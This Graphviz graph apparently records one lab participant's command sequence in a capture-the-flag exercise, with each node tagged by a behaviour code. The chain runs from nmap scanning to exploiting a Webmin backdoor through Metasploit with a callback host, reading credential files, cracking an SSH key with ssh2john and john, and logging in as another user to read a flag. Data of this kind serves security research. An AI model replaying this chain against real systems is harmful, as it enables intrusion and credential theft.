 // creating graph for user: 56
digraph {
	node [shape=box]
	0 [label="nmap 172.18.1.15 A0 A1 "]
	1 [label="nmap -Pn 172.18.1.15 A0 A1 "]
	2 [label="nmap -Pn -p- 172.18.1.15 A0 A1 "]
	3 [label="ls A10 "]
	4 [label="nmap 172.18.1.5 M0 "]
	5 [label="nmap -sC 172.18.1.5 M0 "]
	6 [label="nmap -sV 172.18.1.5 M1 "]
	7 [label="nmap -sC -sV -p 10000 172.18.1.5 M1 "]
	8 [label="msfconsole M2 "]
	9 [label="search miniserv A3 "]
	10 [label="search Miniserv A3 "]
	11 [label="search 1.920 A3 "]
	12 [label="search webmin M3 "]
	13 [label="searchsploit webmin M3 "]
	14 [label="searchsploit -m exploits/linux/remote/47230.rb M8 "]
	15 [label="nano /usr/share/exploitdb/exploits/linux/remote/47230.rb M8 "]
	16 [label="chmod +x /usr/share/exploitdb/exploits/linux/remote/47230.rb M8 "]
	17 [label="cd /usr/share/exploitdb/exploits/linux/remote/ M8 "]
	18 [label="ls A10 "]
	20 [label="use /usr/share/exploitdb/exploits/linux/remote/47230.rb M8 "]
	21 [label="search 1.920 A3 "]
	25 [label="use exploit/unix/webapp/webmin_backdoor M8 "]
	26 [label="show options M5 "]
	27 [label="set LHOST=10.1.135.83 M6 "]
	28 [label="show options  M5 "]
	29 [label="set LHOST=10.1.153.83 M6 "]
	30 [label="set LHOST 10.1.153.83 M6 "]
	31 [label="exploit M8 "]
	32 [label="show options M5 "]
	33 [label="set RHOSTS 172.18.1.5 M6 "]
	34 [label="exploit M8 "]
	35 [label="set RPORT 10000 M6 "]
	36 [label="exploit  M8 "]
	37 [label="show options  M5 "]
	38 [label="set LHOST 192.168.129.103 M6 "]
	39 [label="exploit  M8 "]
	40 [label="cat /root/flag A1 A9 A11 A12 A17 "]
	41 [label="cd /root/  A10 "]
	42 [label="cat config A1 A9 A11 A12 A17 "]
	43 [label="cat webmin.schema M1 "]
	44 [label="cat help A1 A9 A11 A12 A17 "]
	45 [label="ls A10 "]
	46 [label="cat module.info.cz A1 A9 A11 A12 A17 "]
	47 [label="cat schema.cgi A1 A9 A11 A12 A17 "]
	48 [label="cat config A1 A9 A11 A12 A17 "]
	49 [label="ls A10 "]
	50 [label="cat webmin.schema M1 "]
	51 [label="ls A10 "]
	52 [label="cat schema.cgi A1 A9 A11 A12 A17 "]
	53 [label="cat backup_config.pl A1 A9 A11 A12 A17 "]
	54 [label="ls -la A10 "]
	55 [label="cat config.info.hr A1 A9 A11 A12 A17 "]
	56 [label="ls A10 "]
	57 [label="find /root/*[0-9][0-9][0-9][0-0][0-9] A10 "]
	58 [label="find /root/*[0-9][0-9][0-9][0-0][0-9]* A10 "]
	60 [label="wget http://raw.githubusercontent.com/petrmarinec/awdawd/master/FILE A4 "]
	61 [label="ls A10 "]
	62 [label="cat FILE A1 A9 A11 A12 A17 "]
	64 [label="ls A10 "]
	67 [label="ls A10 "]
	68 [label="cat WARNING-READ-ME.txt M9 "]
	70 [label="nmap 172.18.1.5/24 M0 "]
	73 [label="nmap 172.18.1.5 M0 "]
	74 [label="nmap 172.18.1.5/24 M0 "]
	75 [label="nmap 172.18.1.1 A0 A1 "]
	76 [label="nmap 172.18.1.1/24 A0 A1 "]
	77 [label="nmap 172.18.1.5 M0 "]
	78 [label="ls A10 "]
	79 [label="cat WARNIN-READ-ME.txt A1 A9 A11 A12 A17 "]
	80 [label="cat WARNING-READ-ME.txt M9 "]
	81 [label="ls A10 "]
	83 [label="ls A10 "]
	84 [label="cat WARNING-READ-ME.txt M9 "]
	85 [label="ls A10 "]
	88 [label="apt get-install nmap A0 A1 "]
	89 [label="nmap A0 A1 "]
	90 [label="ls A10 "]
	92 [label="ls A10 "]
	94 [label="ls A10 "]
	95 [label="cat miniserv.log A1 A9 A11 A12 A17 "]
	100 [label="ls A10 "]
	102 [label="ls A10 "]
	104 [label="ls A10 "]
	106 [label="ls A10 "]
	108 [label="ls A10 "]
	109 [label="ls -la A10 "]
	110 [label="cat .bashrc A1 A9 A11 A12 A17 "]
	112 [label="ls A10 "]
	114 [label="ls A10 "]
	117 [label="ls A10 "]
	120 [label="ls A10 "]
	124 [label="ls A10 "]
	126 [label="ls A10 "]
	129 [label="ls A10 "]
	130 [label="ls A10 "]
	131 [label="cat miniserv.log A1 A9 A11 A12 A17 "]
	132 [label="ls A10 "]
	133 [label="nmap A0 A1 "]
	134 [label="ls A10 "]
	136 [label="ls A10 "]
	138 [label="ls A10 "]
	140 [label="ls A10 "]
	141 [label="cat passwd.bak A1 A9 A11 A12 A17 "]
	143 [label="ls A10 "]
	146 [label="ls A10 "]
	148 [label="ls A10 "]
	150 [label="ls A10 "]
	152 [label="ls A10 "]
	153 [label="ls -la A10 "]
	154 [label="cat .bash_logout A1 A9 A11 A12 A17 "]
	156 [label="ls A10 "]
	158 [label="ls A10 "]
	159 [label="ls -la A10 "]
	160 [label="cat .profile A1 A9 A11 A12 A17 "]
	162 [label="ls A10 "]
	164 [label="ls -la A10 "]
	165 [label="cat .bashrc A1 A9 A11 A12 A17 "]
	166 [label="ls A10 "]
	167 [label="ls -la A10 "]
	168 [label="cat .ansible A1 A9 A11 A12 A17 "]
	170 [label="ls A10 "]
	172 [label="ls A10 "]
	173 [label="ls -la A10 "]
	175 [label="ls -la A10 "]
	176 [label="ls A10 "]
	178 [label="ls A10 "]
	179 [label="ls -la A10 "]
	180 [label="cat .bash_logout A1 A9 A11 A12 A17 "]
	181 [label="ls A10 "]
	182 [label="msfconsole M2 "]
	183 [label="use unix/webapp/webmin_backdoor M4 "]
	184 [label="show options M5 "]
	185 [label="set RHOSTS 172.18.1.5 M6 "]
	186 [label="set LHOST 10.1.135.83 M6 "]
	187 [label="set RPORT 10000 M6 "]
	188 [label="cat .progle A1 A9 A11 A12 A17 "]
	189 [label="ls A10 "]
	193 [label="ls A10 "]
	195 [label="ls A10 "]
	197 [label="ls A10 "]
	198 [label="ls -la A10 "]
	199 [label="cat .bash_history M11 "]
	201 [label="ls A10 "]
	203 [label="ls A10 "]
	205 [label="ls A10 "]
	206 [label="cat blocked A1 A9 A11 A12 A17 "]
	209 [label="ls A10 "]
	211 [label="ls A10 "]
	213 [label="ls A10 "]
	215 [label="ls A10 "]
	216 [label="ssh 10.1.17.4 A16 "]
	217 [label="ls A10 "]
	219 [label="ls A10 "]
	220 [label="cat passwd.bak A1 A9 A11 A12 A17 "]
	221 [label="ls A10 "]
	224 [label="sls A10 "]
	225 [label="ls A10 "]
	227 [label="ls A10 "]
	230 [label="ls A10 "]
	231 [label="cat user.log A1 A4 A9 A11 A12 A17 "]
	232 [label="ls A10 "]
	235 [label="ls A10 "]
	238 [label="sls A10 "]
	240 [label="ls A10 "]
	242 [label="ls A10 "]
	244 [label="find / -perm -4000 2>/dev/null A10 "]
	245 [label="ls A10 "]
	247 [label="ls A10 "]
	249 [label="ls A10 "]
	251 [label="ls A10 "]
	252 [label="ls A10 "]
	253 [label="ls A10 "]
	255 [label="ls A10 "]
	257 [label="cd .ssh A16 "]
	258 [label="ls A10 "]
	259 [label="exploit M8 "]
	260 [label="ssh -i id_rsa -l eve 10.1.17.4 M16 "]
	262 [label="ls A10 "]
	263 [label="cd .ssh A16 "]
	265 [label="ls A10 "]
	266 [label="ssh -i id_rsa eve@10.1.17.4 M16 "]
	267 [label="cat id_rsa M12 "]
	268 [label="ssh2john A14 A16 "]
	269 [label="cat id_rsa M12 "]
	273 [label="ls A10 "]
	274 [label="ss2john.py id_rsa A14 "]
	275 [label="python ssh2john.py id_rsa M13 "]
	276 [label="python ssh2john.py id_rsa > hash M13 "]
	277 [label="john hash A14 "]
	278 [label="ls A10 "]
	279 [label="ls A10 "]
	280 [label="cat id_rsa M12 "]
	281 [label="john hash A14 "]
	283 [label="ls A10 "]
	285 [label="ls A10 "]
	286 [label="john /root/hash --wordlist=rockyou.txt M14 "]
	287 [label="ssh -i id_rsa eve@10.1.17.4 M16 "]
	288 [label="ls A10 "]
	289 [label="cat top-secret A1 A9 A11 A12 A17 "]
	291 [label="ls A10 "]
	292 [label="cat flag.txt M17 "]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 64 [constraint=false]
	64 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 70 [constraint=false]
	70 -> 73 [constraint=false]
	73 -> 74 [constraint=false]
	74 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	77 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 80 [constraint=false]
	80 -> 81 [constraint=false]
	81 -> 83 [constraint=false]
	83 -> 84 [constraint=false]
	84 -> 85 [constraint=false]
	85 -> 88 [constraint=false]
	88 -> 89 [constraint=false]
	89 -> 90 [constraint=false]
	90 -> 92 [constraint=false]
	92 -> 94 [constraint=false]
	94 -> 95 [constraint=false]
	95 -> 100 [constraint=false]
	100 -> 102 [constraint=false]
	102 -> 104 [constraint=false]
	104 -> 106 [constraint=false]
	106 -> 108 [constraint=false]
	108 -> 109 [constraint=false]
	109 -> 110 [constraint=false]
	110 -> 112 [constraint=false]
	112 -> 114 [constraint=false]
	114 -> 117 [constraint=false]
	117 -> 120 [constraint=false]
	120 -> 124 [constraint=false]
	124 -> 126 [constraint=false]
	126 -> 129 [constraint=false]
	129 -> 130 [constraint=false]
	130 -> 131 [constraint=false]
	131 -> 132 [constraint=false]
	132 -> 133 [constraint=false]
	133 -> 134 [constraint=false]
	134 -> 136 [constraint=false]
	136 -> 138 [constraint=false]
	138 -> 140 [constraint=false]
	140 -> 141 [constraint=false]
	141 -> 143 [constraint=false]
	143 -> 146 [constraint=false]
	146 -> 148 [constraint=false]
	148 -> 150 [constraint=false]
	150 -> 152 [constraint=false]
	152 -> 153 [constraint=false]
	153 -> 154 [constraint=false]
	154 -> 156 [constraint=false]
	156 -> 158 [constraint=false]
	158 -> 159 [constraint=false]
	159 -> 160 [constraint=false]
	160 -> 162 [constraint=false]
	162 -> 164 [constraint=false]
	164 -> 165 [constraint=false]
	165 -> 166 [constraint=false]
	166 -> 167 [constraint=false]
	167 -> 168 [constraint=false]
	168 -> 170 [constraint=false]
	170 -> 172 [constraint=false]
	172 -> 173 [constraint=false]
	173 -> 175 [constraint=false]
	175 -> 176 [constraint=false]
	176 -> 178 [constraint=false]
	178 -> 179 [constraint=false]
	179 -> 180 [constraint=false]
	180 -> 181 [constraint=false]
	181 -> 182 [constraint=false]
	182 -> 183 [constraint=false]
	183 -> 184 [constraint=false]
	184 -> 185 [constraint=false]
	185 -> 186 [constraint=false]
	186 -> 187 [constraint=false]
	187 -> 188 [constraint=false]
	188 -> 189 [constraint=false]
	189 -> 193 [constraint=false]
	193 -> 195 [constraint=false]
	195 -> 197 [constraint=false]
	197 -> 198 [constraint=false]
	198 -> 199 [constraint=false]
	199 -> 201 [constraint=false]
	201 -> 203 [constraint=false]
	203 -> 205 [constraint=false]
	205 -> 206 [constraint=false]
	206 -> 209 [constraint=false]
	209 -> 211 [constraint=false]
	211 -> 213 [constraint=false]
	213 -> 215 [constraint=false]
	215 -> 216 [constraint=false]
	216 -> 217 [constraint=false]
	217 -> 219 [constraint=false]
	219 -> 220 [constraint=false]
	220 -> 221 [constraint=false]
	221 -> 224 [constraint=false]
	224 -> 225 [constraint=false]
	225 -> 227 [constraint=false]
	227 -> 230 [constraint=false]
	230 -> 231 [constraint=false]
	231 -> 232 [constraint=false]
	232 -> 235 [constraint=false]
	235 -> 238 [constraint=false]
	238 -> 240 [constraint=false]
	240 -> 242 [constraint=false]
	242 -> 244 [constraint=false]
	244 -> 245 [constraint=false]
	245 -> 247 [constraint=false]
	247 -> 249 [constraint=false]
	249 -> 251 [constraint=false]
	251 -> 252 [constraint=false]
	252 -> 253 [constraint=false]
	253 -> 255 [constraint=false]
	255 -> 257 [constraint=false]
	257 -> 258 [constraint=false]
	258 -> 259 [constraint=false]
	259 -> 260 [constraint=false]
	260 -> 262 [constraint=false]
	262 -> 263 [constraint=false]
	263 -> 265 [constraint=false]
	265 -> 266 [constraint=false]
	266 -> 267 [constraint=false]
	267 -> 268 [constraint=false]
	268 -> 269 [constraint=false]
	269 -> 273 [constraint=false]
	273 -> 274 [constraint=false]
	274 -> 275 [constraint=false]
	275 -> 276 [constraint=false]
	276 -> 277 [constraint=false]
	277 -> 278 [constraint=false]
	278 -> 279 [constraint=false]
	279 -> 280 [constraint=false]
	280 -> 281 [constraint=false]
	281 -> 283 [constraint=false]
	283 -> 285 [constraint=false]
	285 -> 286 [constraint=false]
	286 -> 287 [constraint=false]
	287 -> 288 [constraint=false]
	288 -> 289 [constraint=false]
	289 -> 291 [constraint=false]
	291 -> 292 [constraint=false]
	rankdir=LR
}
